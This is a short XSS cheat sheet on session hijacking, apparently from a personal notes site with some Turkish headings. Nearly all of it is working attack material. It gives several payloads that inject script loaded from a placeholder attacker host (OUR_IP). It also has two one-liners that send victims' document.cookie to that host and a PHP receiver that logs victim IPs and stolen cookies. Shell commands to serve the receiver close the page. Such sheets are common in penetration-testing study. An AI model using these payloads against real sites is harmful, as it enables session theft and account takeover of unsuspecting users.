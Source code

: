 ```yaml
---
{"dg-publish":true,"permalink":"/cheat-sheet/xss-payload/"}
---
```




# Session Hijacking

###  Remote Komut Dosyası Yükleme

```html
<script src="http://OUR_IP/script.js"></script>
```

```html
<script src=http://OUR_IP></script>
'><script src=http://OUR_IP></script>
"><script src=http://OUR_IP></script>
javascript:eval('var a=document.createElement(\'script\');a.src=\'http://OUR_IP\';document.body.appendChild(a)')
<script>function b(){eval(this.responseText)};a=new XMLHttpRequest();a.addEventListener("load", b);a.open("GET", "//OUR_IP");a.send();</script>
<script>$.getScript("http://OUR_IP")</script>
```

[PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection#blind-xss)



### Session Hijacking (Cookie çalma)

```javascript
document.location='http://OUR_IP/index.php?c='+document.cookie;
new Image().src='http://OUR_IP/index.php?c='+document.cookie;
```

#### index.php dosyası : 

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```shell-session
mkdir /tmp/tmpserver
cd /tmp/tmpserver
sudo php -S 0.0.0.0:80
```